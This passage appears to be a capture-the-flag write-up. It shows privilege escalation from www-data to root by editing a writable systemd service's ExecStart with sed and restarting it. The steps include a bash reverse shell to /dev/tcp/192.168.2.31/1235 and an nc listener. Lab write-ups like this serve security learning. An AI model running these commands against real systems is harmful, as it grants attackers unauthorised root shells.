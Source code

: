 ```shell
$ www-data@kb-server:/run/screen$ /bin/systemctl start testing
```
And I check the `/tmp` directory, then the file `output` was not created, and I am starting to think there is a problem with the `/tmp` directory, and I decided to change the directory of my test payload, and now, I just want to try to create the file `/run/screen/testps`, when I use the `sed` command:
```shell
$ www-data@kb-server:/run/screen$ sed -i \
> "s/ExecStart=.*/ExecStart=\/bin\/sh \-c \'touch \/run\/screen\/testps\'
> /g" testing.service
```
And I use the `systemctl` command:
```shell
$ www-data@kb-server:/run/screen$ systemctl daemon-reload
```
And I restart the service:
```shell
$ www-data@kb-server:/run/screen$ systemctl restart testing
```
And I check if the file `testps` was created:
```shell
$ www-data@kb-server:/run/screen$ ls -la
...SNIPPED...
-rw-r--r--  1 www-data www-data 108 Feb 14 16:45 testing.service
-rw-r--r--  1 root     root       0 Feb 14 16:46 testps
```
Then it works, and now, I am going to perform a reverse shell. When I modify the `testing.service`:
```shell
$ www-data@kb-server:/run/screen$ sed -i \
> "s/ExecStart=.*/ExecStart=\/bin\/bash \-c \'bash \-i \>\&
> \/dev\/tcp\/192.168.2.31\/1235 0\>\&1\'/g" testing.service
```
And I open a listener with the `nc` command:
```shell
$ nc -lvnp 1235
```
And I restart the service:
```shell
$ www-data@kb-server:/run/screen$ systemctl daemon-reload && \
> systemctl restart testing
```
Then I can get the `root` shell, and I can get the `root` flag:

![evidence](./static/15-censored-rootflag.png)
